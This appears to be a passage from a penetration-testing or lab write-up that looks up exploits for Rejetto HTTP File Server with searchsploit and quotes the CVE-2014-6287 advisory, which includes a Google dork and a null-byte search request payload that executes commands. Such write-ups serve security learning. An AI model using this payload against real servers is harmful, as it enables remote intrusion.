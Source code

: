 ### Method 1: Quick search on google we can find this easily

![image.png](attachment:67e2d409-ef29-4e23-a758-7f6cc33b5235:image.png)

### Method 2: Using Searchsploit

- Specific search using the -s flag

```bash
┌──(root㉿kali)-[~]
└─# searchsploit -s rejetto http file server
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)                         | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities                              | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                 | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                            | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                            | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                       | windows/webapps/34852.txt
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                    | windows/webapps/49125.py
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Viewing the contents of the exploit

```bash
searchsploit -x windows/remote/34668.txt
```

Output:

```bash
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 11-09-2014
# Remote: Yes
# Exploit Author: Daniele Linguaglossa
# Vendor Homepage: <http://rejetto.com/>
# Software Link: <http://sourceforge.net/projects/hfs/>
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

issue exists due to a poor regex in the file ParserLib.pas

function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\\{[.:]|[.:]\\}|\\|', 'm!', ofs) end;

it will not handle null byte so a request to

<http://localhost:80/?search=%00{.exec|cmd.}>
```
